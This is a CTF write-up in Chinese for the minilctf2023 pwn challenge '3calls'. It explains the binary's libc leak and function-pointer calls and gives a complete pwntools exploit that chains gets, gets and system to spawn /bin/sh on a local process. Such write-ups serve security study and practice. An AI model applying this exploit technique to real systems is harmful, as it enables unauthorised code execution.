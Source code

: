 # minilctf2023 pwn wp

## 3calls

`checksec`看到保护全开，程序没有沙箱，也就没必要用描述中说的orw

IDA打开看到程序直接给出了libc地址，会读取3次，然后check读入的数据，最后依次调用读入的3个函数。check函数会检查libc中是否由地址所对应的函数，也就是不能随意调用某一句，只能调用封装好的整个函数。

```c
  libc = (__int64)(&printf - 49390);
  printf("gift: %p\n", &printf - 49390);
  for ( i = 0; i <= 2; ++i )
    read(0, &F[i], 8uLL);
  puts("good job!");
  for ( j = 0; j <= 2; ++j )
    F[j]();
```

这样一来，`system`函数必不可少。然后就是需要给其传参，显然不能直接传参。调试发现（调试时可以patch掉check函数，因为check函数会产生其他进程，让gdb无法attach到后续逻辑）程序执行`F[0]`时的rdi为

```asm
 RDI  0x7ffff7faea70 (_IO_stdfile_1_lock) ◂— 0x0
```

这个区域是一个可读写的区域，因此可以调用gets函数读取`/bin/sh`字符串，但是在调用gets的时候出现了一些玄学的问题（我没调试清楚），我第一次需要用一个gets直接读取换行符，第二个gets读取`/bin0sh`字符串（因为字符0的位置在下一个函数执行时会自动减一，也是没调试清楚），然后第三次就直接`system("/bin/sh")`了

exp:

```python
#!/usr/bin/env python3
from pwn import*
context(arch = 'x86_64', log_level = 'debug')

#io = remote('localhost',34643)
io = process('./3calls_2')
libc = ELF('./libc.so.6')

io.recvuntil(b'0x')
libcbase = int(io.recv(12), 16)
log.success('libcbase ===> '+hex(libcbase))

#attach(io)
#pause()

io.send(p64(libcbase+libc.symbols['gets']))
sleep(0.1)
io.send(p64(libcbase+libc.symbols['gets']))
sleep(0.1)
io.send(p64(libcbase+libc.symbols['system']))
sleep(1)

io.recvuntil(b'good job!\n')
io.send(b'\n')
sleep(1)
io.sendline(b'/bin0sh')
sleep(1)

io.interactive()
```
